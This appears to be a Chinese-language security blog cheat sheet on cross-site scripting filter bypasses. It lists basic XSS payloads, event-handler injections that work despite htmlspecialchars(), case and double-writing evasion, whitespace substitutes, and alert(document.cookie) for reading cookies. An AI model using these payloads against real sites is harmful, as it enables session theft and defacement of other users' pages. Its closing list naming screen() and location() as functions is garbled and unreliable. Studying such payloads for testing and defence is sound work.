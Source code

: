 ```yaml
---
catalog: true
tags:
    web
    xss
---
```


# XSS有许多的绕过技巧
## 基本
```html
	<script>alert(1)</script>  
	<img src=1 onerror=alert(1)>  
	<a href=javascript:alert(1)>  
	"><script>alert('xss')</script>//
	<svg onload=alert(1)>  
	<svg onload=alert`1`></svg>  
	万能检测<SCRscriptIPT>’”()Oonnjavascript
```
## 当使用了htmlspecialchars()实体化后
```javascript
	1.使用on事件:  
	onmouseover
	onmouseout
	onclick  
	onfocus  
	<input type="text" onkeydown="alert(1)">//用户按下按键时触发  
	<input type="text" onkeypress="alert(1)">//用户按下按键时触发  
	<input type="text" onkeyup="alert(1)">//用户松开按键时触发  
```
![xss](/img/xss1.png)


## 当危险字段被过滤时
1.尝试大小写  
2.尝试双写

## 空格被实体化后
>可以尝试用`/`替换  
>若`/`也被实体化,可使用回车：`%0a`替代

## BOM
```javascript
 alert():警告弹窗  
 confirm():确定弹窗 
 prompt():提示弹窗
>通常用来证明xss漏洞存在。  
`获取cookie信息`  
 alert(document.cookie)
 screen()
 location() 
```